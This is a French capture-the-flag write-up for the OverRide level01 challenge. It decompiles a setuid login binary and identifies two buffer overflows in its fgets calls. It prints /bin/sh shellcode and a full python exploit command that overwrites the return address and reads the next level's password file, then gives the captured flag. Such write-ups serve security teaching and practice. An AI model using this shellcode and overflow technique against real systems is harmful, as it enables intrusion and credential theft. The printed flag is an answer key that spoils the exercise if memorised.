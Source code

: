 # OverRide : [level01]

### Observation :
En arrivant sur le level01 on trouve un exécutable nommé level01.\
Quand nous essayons de le lancer cela nous demande un login, puis nous refuse l'accès. \
Regardons donc avec gdb ou un decompilateur.

---

#### Source décompilée:
```c
char a_user_name[100]; // idb

//----- (08048464) --------------------------------------------------------
_BOOL4 verify_user_name()
{
  puts("verifying username....\n");
  return memcmp(a_user_name, "dat_wil", 7u) != 0;
}

//----- (080484A3) --------------------------------------------------------
_BOOL4 __cdecl verify_user_pass(const void *a1)
{
  return memcmp(a1, "admin", 5u) != 0;
}

//----- (080484D0) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[64]; // [esp+1Ch] [ebp-4Ch] BYREF
  _BOOL4 v5; // [esp+5Ch] [ebp-Ch]

  memset(s, 0, sizeof(s));
  v5 = 0;
  puts("********* ADMIN LOGIN PROMPT *********");
  printf("Enter Username: ");
  fgets(a_user_name, 256, stdin);
  v5 = verify_user_name();
  if ( v5 )
  {
    puts("nope, incorrect username...\n");
  }
  else
  {
    puts("Enter Password: ");
    fgets(s, 100, stdin);
    v5 = verify_user_pass(s);
    puts("nope, incorrect password...\n");
  }
  return 1;
}
```

#### Détails du programme:
```bash
-rwsr-s---+ 1 level02 users   7360 Sep 10  2016 level01
```

#### Fonctions:

| Nom | Description |
| --- | ----------- |
| `<main>` | Notre fonction main nous demande dans un premier temps de lui donner un nom d'utilisateur (stdin de 256 octets) puis appel la fonction `<verify_user_name>`, si le retour est bon, il nous demande un password (stdin de 100 octets) puis appel la fonction `<verify_user_pass>`, ensuite dans tous les cas, il retourne la chaîne `"nope, incorrect password...\n"`.|
| `<verify_user_name>` | Cette fonction vas juste vérifier si notre `stdin` est égal à: `"dat_wil"` (uniquement 7 octets, cela ne compare donc pas le `\0`)|
| `<verify_user_pass>` | cette fonction est similaire a `<verify_user_name>` sauf que cette fois si elle compare notre `stdin` à: `"admin"` (uniquement 5 octets, cela ne compare donc pas le `\0`).|


#### Conclusions:
Nous avons un programme qui a potentiellement 2 buffer overflow, un pour chaque `stdin`. \
Nous n'avons pas de moyen normal d'accéder a un shell dans le programme donc nous allons devoir injecter un `shellcode`. \


----
Résolution:
----
Nous allons devoir injecter notre `shellcode` ou nous trouvons de la place, par exemple dans le premier `stdin` juste après la chaîne de 7 octets: `"dat_wil"`. \
Nous devons aussi `jump` depuis la valeur de `return` sur notre `shellcode` grâce au 2eme overflow de `stdin`. 

Pour se faire:
- Nous allons donc écrire dans le premier `stdin` la chaîne `"dat_wil"` pour passer la première condition, puis mettre notre `shellcode` pour accéder au shell plus tard. 
- Ensuite, nous devons remplir le reste de notre `stdin` avec des octets random (ou mettre un \n). 
- Nous allons par la suite trouver l'adresse de retour afin de pouvoir la modifier, pour jump sur notre shellcode qui se trouve à l'adresse du premier `buffer de stdin (+7 pour la chaîne de caractères "dat_wil")`.
- En regardant dans gdb on se rend compte que notre adresse de retour se trouve à `+79 octets` en partant de notre second `buffer (stdin)`, c'est là qu'il faut écrire l'adresse ou se trouve notre `shellcode` pour qu'il soit executer.



#### Injection:
```asm
# SHELLCODE
# La fonction injectée appelle <system> avec '/bin/sh' en paramètre:

0:  6a 0b                   	push   0xb
2:  58                      	pop    eax
3:  31 f6                   	xor    esi,esi
5:  56                      	push   esi
6:  68 2f 2f 73 68          	push   0x68732f2f
b:  68 2f 62 69 6e          	push   0x6e69622f
10: 89 e3                   	mov    ebx,esp
12: 31 c9                   	xor    ecx,ecx
14: 89 ca                   	mov    edx,ecx
16: cd 80                   	int    0x80
```
#### Commande:
```bash
(python -c "print ('dat_wil\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'a' * (256 - 24 - 7) + 'b'*(79) + '\x08\x04\xa0\x47'[::-1])"; ec
ho 'cat /home/users/level02/.pass') | /home/users/level01/level01

```

#### Flag: `PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv`
